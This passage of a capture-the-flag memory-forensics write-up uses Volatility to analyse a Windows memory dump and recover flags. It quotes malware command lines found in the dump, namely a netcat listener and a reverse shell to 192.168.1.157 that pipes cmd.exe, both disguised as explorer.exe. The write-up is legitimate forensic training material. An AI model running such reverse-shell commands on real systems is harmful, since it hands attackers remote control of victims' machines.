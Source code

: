 ************************************************************************
Registry pid:     88
************************************************************************
smss.exe pid:    348
Command line : \SystemRoot\System32\smss.exe
************************************************************************
...
explorer.exe pid:   5448
Command line : explorer.exe  -lnvp 6666
************************************************************************
explorer.exe pid:   3100
Command line : explorer.exe  192.168.1.157 6666 -e cmd.exe
************************************************************************
```

Here we can see the commands executed with _cmdline_ option from volatility, there we could see the command:

``` flag: flag{explorer.exe  192.168.1.157 6666 -e cmd.exe} ```





---

# Bonus

## Public Service
100

There is a flag associated with the malicious process from Evil Twin on a popular site used to check malware hashes. Find and submit that flag.

For this task, we will retrieve the executable and calculate its hash for looking for it on virustotal for example.

```
kali@kali:/opt/volatility$ python vol.py --profile=Win10x64_17134 -f ~/Desktop/CTFs/HacktoberCTF/Forensic/CapturedMemories/mem.raw procdump -p 5448 --dump-dir ~/Desktop/CTFs/HacktoberCTF/Forensic/CapturedMemories
Volatility Foundation Volatility Framework 2.6.1
Process(V)         ImageBase          Name                 Result
------------------ ------------------ -------------------- ------
0xffff878691762080 0x0000000000400000 explorer.exe         OK: executable.5448.exe

kali@kali:~/Desktop/CTFs/HacktoberCTF/Forensic/CapturedMemories$ md5sum executable.5448.exe 
360b48f831d9beb41544b45d0aa66b8a  executable.5448.exe
```

We go to [VirusTotal](https://www.virustotal.com/gui/file/096740ce1bc9fa14ab07c16efd21fd946b7e966dbc1fe66ce02f5860911c865e/community) and we can check a community comment with the flag:

<p align="center">
  <img src="/images/writeups/HacktoberCTF/Forensic/CapturedMemories/1_comment.png" width="700"/>
</p>

``` flag: flag{h4cktober_ctf_2020_nc} ```






```